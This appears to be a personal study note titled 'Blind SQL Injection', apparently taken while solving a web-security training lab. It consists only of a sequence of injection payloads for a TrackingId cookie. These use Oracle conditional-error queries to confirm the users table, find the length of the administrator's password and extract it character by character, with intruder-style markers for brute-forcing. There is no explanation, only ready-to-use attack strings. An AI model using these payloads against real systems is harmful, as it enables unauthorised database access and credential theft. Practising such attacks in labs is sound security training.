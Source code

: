 ```yaml
---
title: Blind SQL Injection
updated: 2023-11-06 04:01:19Z
created: 2023-11-05 12:09:35Z
latitude: -33.85985000
longitude: 151.20901000
altitude: 0.0000
---
```


`TrackingId=xyz'`  
`TrackingId=xyz''`  
`TrackingId=xyz'||(SELECT '')||'`  
`TrackingId=xyz'||(SELECT '' FROM dual)||'`  
`TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'`  
`TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`  
`TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`  
`TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`  
`TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
`TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
`TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
`TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
`TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
`TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
`TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`